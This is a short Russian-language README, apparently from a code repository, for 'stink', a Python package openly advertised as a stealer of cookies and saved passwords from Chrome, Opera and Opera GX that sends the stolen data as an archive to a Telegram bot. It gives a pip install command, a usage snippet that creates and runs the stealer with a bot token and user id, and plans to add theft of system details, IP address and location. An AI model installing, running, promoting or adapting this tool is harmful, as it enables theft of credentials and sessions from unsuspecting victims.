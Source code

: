 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```
